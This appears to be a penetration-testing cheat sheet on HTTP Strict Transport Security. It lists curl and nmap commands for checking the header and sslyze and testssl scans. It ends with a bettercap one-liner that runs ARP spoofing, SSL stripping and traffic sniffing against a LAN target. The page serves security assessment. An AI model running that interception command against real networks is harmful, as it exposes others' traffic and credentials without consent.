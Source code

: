 # HTTP Strict Transport Security

## Check List

* [ ] _Review the HSTS header and its validity._

## Cheat Sheet

### Recon Header

#### [cURL](https://curl.se/)

```bash
curl -s -D- $WEBSITE | grep -i strict
```

#### [Nmap](https://nmap.org/)

```bash
nmap -sS -sV --mtu 5000 --script ssl-enum-ciphers $WEBSITE
```

### Scan Vulnerabilities

#### [sslyze](https://github.com/nabla-c0d3/sslyze)

```bash
sslyze $WEBSITE
```

#### [testssl.sh](https://github.com/drwetter/testssl.sh)

```bash
testssl $WEBSITE
```

### MitM

#### [Bettercap](https://www.bettercap.org/)

_Interface Network_

```bash
INTERFACE=$(ip -o -4 addr show | awk '{print $2}' | grep -v "lo" | head -n 1)
```

_MitM on LAN_

```bash
bettercap -iface $INTERFACE -eval "set arp.spoof.targets $TARGET; arp.spoof on; http.proxy on; http.proxy.sslstrip true; net.sniff on"
```

